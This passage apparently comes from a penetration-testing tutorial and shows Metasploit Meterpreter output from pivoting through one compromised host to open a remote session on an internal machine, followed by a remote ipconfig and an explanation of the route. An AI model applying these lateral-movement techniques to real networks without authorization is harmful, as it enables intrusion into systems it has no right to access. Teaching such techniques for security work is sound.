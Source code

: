 ```bash
> Deleting \qNuIKByV.exe...
> Sending stage (749056 bytes)
> Meterpreter session 2 opened (192.168.1.101-192.168.1.201:0 -> 10.1.13.2:4444) at Mon Dec 06 08:56:42 -0700 2010

meterpreter >
```

As you can see, we have established a connection to the second computer. As you can see from the line `[*] Meterpreter session 2 opened (192.168.1.101-192.168.1.201:0 -> 10.1.13.2:4444)` above, we established this connection by following the route `192.168.1.101-192.168.1.201:0 -> 10.1.13.2:4444`.

192.168.1.101: Our own computer

192.168.1.201: The computer used as the pivot

10.1.13.2: The second computer that is accessed.

Let's look at the `ipconfig` settings of the second computer.

```bash
meterpreter > ipconfig

Citrix XenServer PV Ethernet Adapter
Hardware MAC: 22:73:ff:12:11:4b
IP Address : 10.1.13.2
Netmask : 255.255.255.0

MS TCP Loopback interface
Hardware MAC: 00:00:00:00:00:00
IP Address : 127.0.0.1
Netmask : 255.0.0.0
meterpreter >
```

As you can see, **pivoting** is a very powerful technique. After accessing any computer in a network, it helps you reach other systems in the network.
